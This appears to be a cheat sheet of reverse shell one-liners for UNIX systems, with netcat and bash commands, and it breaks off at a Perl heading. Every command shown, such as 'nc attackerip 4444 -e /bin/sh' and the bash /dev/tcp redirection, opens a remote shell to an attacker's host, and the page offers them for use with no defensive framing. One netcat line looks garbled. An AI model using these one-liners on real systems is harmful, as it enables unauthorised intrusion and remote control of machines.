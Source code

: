 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -
> nc attackerip 4444  -e /bin/sh
> /bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
> sudo apt-get install netcat-traditional

### 2. Bash

> bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL
